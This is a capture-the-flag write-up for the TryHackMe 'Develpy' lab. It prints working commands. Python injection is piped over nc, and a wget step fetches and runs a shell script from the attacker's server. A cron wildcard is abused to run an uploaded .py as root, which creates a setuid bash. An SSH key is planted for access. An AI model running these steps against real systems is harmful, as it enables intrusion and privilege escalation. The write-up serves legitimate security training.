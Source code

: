 # Tryhackme.com Room : Develpy

`https://tryhackme.com/room/bsidesgtdevelpy`



## Instance

```
export IP='10.10.61.29'
```



## Nmap

```

```

voir `vulnet_dotpy` pour voir comment avoir un handle sur `Popen`



We got python code execution by piping output to port `10000`

Super easy, to get shell cmd execution :

```
echo '__builtins__.__import__("os").system("wget http://10.6.32.20:8000/pwned")' | nc 10.10.196.166 10000
```

Tried to pass a revshell in the commands but had trouble so I just written a python revshell script, downloaded it from the box and executed :

```
echo '__builtins__.__import__("os").system("wget http://10.6.32.20:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh")' | nc 10.10.196.166 10000
```



And we are logged in as `king`



`/home/king/user.txt` :

```
cf85ff769cfaaa721758949bf870b019
```



## Priv esc
There is 2 shell scripts in `/home/king`.
`/home/king/run.sh` :
```
#!/bin/bash
kill cat /home/king/.pid
socat TCP-LISTEN:10000,reuseaddr,fork EXEC:./exploit.py,pty,stderr,echo=0 &
echo $! > /home/king/.pid
```

And `/home/king/root.sh` :
```
python /root/company/media/*.py
```

Let's look at `/etc/crontab` :
```
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh
```

So those scripts are runned every minutes. There is also `/root/company/run.sh` but we can't see what it is.
We can edit `/home/king/run.sh` but it doesn't help us since it is runned as the user `king`.

Before continuing, let's talk about the file `/home/king/credentials.png`.
I downloaded the file on my machine to see if there is something there.
Running `binwalk` reveal a `.zlib` file. So we decompress it and then we have a of type :
```
TTComp archive, binary, 4K dictionary
```

Didn't find a way to extract this, found some `go` lib and it didn't really work so I just went back to the machine.

Anyhoww, back on the box, I ran `pspy` to see what was executed by the cron jobs and we see :
```
python3 manage.py runserver 127.0.0.1:8080
```
Hmm interesting, I added my `ssh` public key to `/home/king/.ssh/authorized_keys` so that I could easily forward port `8080` to my machine.

We find a website where we can upload `.py` files.
We upload a test.py file :
```python
import os
os.system('wget http://10.6.32.20:8000/pwned')
```
The website says that it was uploaded to `/media/test.py` but we can't access it via the website.
After a minute or so we get a hit on our server.
We also see in `pspy` :
```
python /root/company/media/test.py
```

Which is runned via the wildcard extension in `/home/king/root.sh` runned via the `root` `cronjob`.
So here we have it. Let's create a `SUID` copy of bash with :
```python
import os
os.system('cp /bin/bash /tmp/bash && chmod +s /tmp/bash')
```

A caveat is that the wildcard expansion in `/home/king/root.sh` will result in :
```
python /root/company/media/1.py /root/company/media/2.py /root/company/media/3.py ...
```

Only the first script is executed, so we gotta name our script accordingly.

And we get `root` by execution `/tmp/bash -p`

`/root/root.txt` :
```
9c37646777a53910a347f387dce025ec
```

## Wrap up
* This was a cool little challenge. Not super hard
* After finishing, I read some writeups and found out that the `credentials.png` image can be interpreted by the `piet` language.
** Couldn't make it work with this online interprete `https://www.bertnase.de/npiet/npiet-execute.php` Would always receive an error.
** Same with standalone libraries.
** Anyways, this would have given us the `king` user `credentials` but it didn't matter at all. We didn't need them we were already `king`. By adding our `ssh` key to `authorized_keys` we were able to connect via `ssh` and do port redirection so no need for the credentials. + We weren't in sudoers so no need for the password at all.

